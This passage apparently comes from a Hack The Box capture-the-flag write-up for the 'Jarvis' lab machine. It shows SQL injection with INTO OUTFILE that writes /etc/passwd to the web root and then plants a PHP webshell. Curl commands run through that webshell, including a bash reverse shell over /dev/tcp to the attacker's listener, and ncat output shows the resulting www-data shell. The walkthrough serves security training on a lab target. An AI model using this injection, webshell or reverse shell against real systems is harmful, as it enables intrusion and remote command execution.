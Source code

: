 The above query writes the contents of `/etc/passwd` to a filen named `pwn.txt` on the web root. After requesting the URL and browsing to `/pwn.txt`, we see the contents of `/etc/passwd`.

![](/assets/images/htb-writeup-jarvis/pwn.png)

## FootHold
Next, can write a php `webshell` and write to a file on the server using the same above method.
```
http://10.10.10.143/room.php?cod=-1 UNION SELECT 1,'<?php system($_REQUEST["cmd"]); ?>',3,4,5,6,7 into outfile '/var/www/html/pwned.php'
```

After requesting the above URL, we can use `cmd` paramter to execute the commands on the server.
```bash
curl -X POST  http://10.10.10.143/pwned.php --data-urlencode cmd=whoami
1       www-data
        3       4       5       6       7
```

To gain a interactive `reverse shell` we can execute a bash reverse shell.
```
curl -X POST  http://10.10.10.143/pwned.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.40/9001 0>&1"'
```

And we got a reverse shell as `www-data` .
```bash
ncat -lvnp 9001

Ncat: Version 7.60 ( https://nmap.org/ncat )
Ncat: Generating a temporary 1024-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: 1C9C 3DF3 B4E7 6771 9D7D F5D1 5782 9B06 1ACC D768
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.10.143.
Ncat: Connection from 10.10.10.143:55158.
bash: cannot set terminal process group (599): Inappropriate ioctl for device
bash: no job control in this shell
www-data@jarvis:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```